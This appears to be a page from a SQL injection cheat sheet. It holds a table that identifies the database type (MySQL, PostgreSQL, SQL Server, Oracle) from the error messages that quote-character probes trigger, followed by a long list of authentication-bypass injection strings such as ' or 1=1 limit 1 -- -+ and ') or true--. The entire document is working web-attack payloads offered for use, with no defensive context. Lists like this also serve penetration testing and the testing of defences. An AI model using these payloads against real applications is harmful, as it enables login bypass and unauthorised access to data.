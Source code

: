 ## DBMS Identification via Error

| DBMS                 | Example Error Message                                                                     | Example Payload |
| -------------------- | ----------------------------------------------------------------------------------------- | --------------- |
| MySQL                | `You have an error in your SQL syntax; ... near '' at line 1`                             | `'`             |
| PostgreSQL           | `ERROR: unterminated quoted string at or near "'"`                                        | `'`             |
| PostgreSQL           | `ERROR: syntax error at or near "1"`                                                      | `1'`            |
| Microsoft SQL Server | `Unclosed quotation mark after the character string ''.`                                  | `'`             |
| Microsoft SQL Server | `Incorrect syntax near ''.`                                                               | `'`             |
| Microsoft SQL Server | `The conversion of the varchar value to data type int resulted in an out-of-range value.` | `1'`            |
| Oracle               | `ORA-00933: SQL command not properly ended`                                               | `'`             |
| Oracle               | `ORA-01756: quoted string not properly terminated`                                        | `'`             |
| Oracle               | `ORA-00923: FROM keyword not found where expected`                                        | `1'`            |

## Authentication Bypass

```sql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
```